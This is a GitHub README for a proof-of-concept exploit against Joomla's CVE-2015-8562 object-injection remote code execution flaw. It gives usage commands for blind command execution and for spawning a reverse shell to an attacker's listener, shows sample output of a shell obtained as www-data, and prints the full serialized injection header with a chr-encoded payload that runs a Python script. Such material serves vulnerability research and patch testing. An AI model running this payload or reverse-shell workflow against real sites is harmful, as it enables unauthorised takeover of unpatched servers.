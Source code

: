# Joomla_CVE-2015-8562
A proof of concept for Joomla's CVE-2015-8562 vulnerability (Object Injection RCE)

## Intro/Changelog

This PoC is the second version of the implementation hosted at [exploit-db](https://www.exploit-db.com/exploits/39033/).

    -Fixed (regenerate session)
    -Added the option to switch from X-Forwarded-For to User-Agent method
    -Added the option to switch from a python reverse shell to a bash one
    -Added catching exception for missing http schema and script termination
    -Edited for a better usage, better messages and colors
    -TODO: adding msf support

## How to Use

    git clone https://github.com/VoidSec/Joomla_CVE-2015-8562.git
    cd Joomla_CVE-2015-8562

Blind RCE:

    python joomla-cve-2015-8562.py -t http://<target_ip>/ --cmd
    $ touch /tmp/test
    
Spawn Reverse Shell:
  
    python joomla-cve-2015-8562.py -t http://<target_ip>/ -l <local_ip> -p <local_port>
    [-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: http://<target_ip>/
    [-] Uploading python reverse shell
    <Response [200]>
    [+] Spawning reverse shell....
    <Response [200]>
    Listening on [0.0.0.0] (family 0, port 1337)
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)


### CVE-2015-8562

In December 2015 a new vulnerability was found in Joomla. It allows a remote attacker to exploit PHP object injection attacks and execute arbitrary PHP code via the HTTP User-Agent header.

This vulnerability target Joomla 1.5.0 through 3.4.5 and PHP version before 5.4.45 (including 5.3.x), 5.5.29 or 5.6.13 [CVE-2015-6835](https://bugs.php.net/bug.php?id=70219). 

I've made this [blog post](https://voidsec.com/analysis-of-the-joomla-rce-cve-2015-8562/) explaining the vulnerability.

#### This is what the sent header looks like
```
}__test|O:21:"JDatabaseDriverMysqli":3:{
	s:2:"fc";
	O:17:"JSimplepieFactory":0:{}
	s:21:"\0\0\0disconnectHandlers";
	a:1:{
		i:0;
		a:2:{
			i:0;
			O:9:"SimplePie":5:{
				s:8:"sanitize";
				O:20:"JDatabaseDriverMysql":0:{}
				s:8:"feed_url";
				s:305:"eval(chr(115).chr(121).chr(115).chr(116).chr(101).chr(109).chr(40).chr(39).chr(112).chr(121).chr(116).chr(104).chr(111).chr(110).chr(32).chr(47).chr(116).chr(109).chr(112).chr(47).chr(76).chr(56).chr(51).chr(55).chr(66).chr(72).chr(46).chr(112).chr(121).chr(39).chr(41).chr(59));
				JFactory::getConfig();
				exit";
				s:19:"cache_name_function";
				s:6:"assert";
				s:5:"cache";
				b:1;s:11:"cache_class";
				O:20:"JDatabaseDriverMysql":0:{}
				}
			i:1;
			s:4:"init";
			}
		}
	s:13:"\0\0\0connection";
	b:1;
}ýýýý
```
